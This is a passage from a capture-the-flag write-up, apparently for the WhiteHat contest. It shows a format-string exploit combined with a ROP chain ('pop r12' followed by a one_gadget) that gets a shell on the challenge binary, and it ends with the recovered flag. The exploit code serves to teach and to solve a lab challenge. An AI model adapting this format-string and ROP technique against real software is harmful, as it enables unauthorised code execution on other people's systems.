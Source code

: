 Now, let's get all available one gadget to see if we can use any of them:

![one-gadget.png](images/one-gadget.png)

We can see not gadget can be satisfy. So we will get the first one_gadget and need to find a `pop r12` in libc to make r12 to null:

```bash
$ ROPgadget --binary libc.so.6 | grep ": pop r12"
...
0x000000000008e230 : pop r12 ; pop r14 ; ret
0x000000000012cf7d : pop r12 ; pop rbp ; ret
0x000000000002f709 : pop r12 ; ret
```

Because we only have 3 address left so just `pop r12` is enough. The final script for this stage is:

```python
add_rsp_x38 = exe.address + 0x00000000000012da
pop_r12 = libc.address + 0x000000000002f709

payload = f'%{add_rsp_x38 & 0xffff}c%8$hn'.encode()
payload = payload.ljust(0x10, b'B')
payload += p64(stack_leak - 0x23)
payload = payload.ljust(0x50-0x18, b'B')
payload += flat(
   pop_r12, 0,
   libc.sym['one_gadget']
   )
if CheckWhiteList(payload)==-1:
   log.critical("In blacklist!")
   p.close()
   continue
p.sendline(payload)
```

Execute script and we can get shell.

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `WhiteHat{Such_4_cr@zy_5umm3r_R4c3}`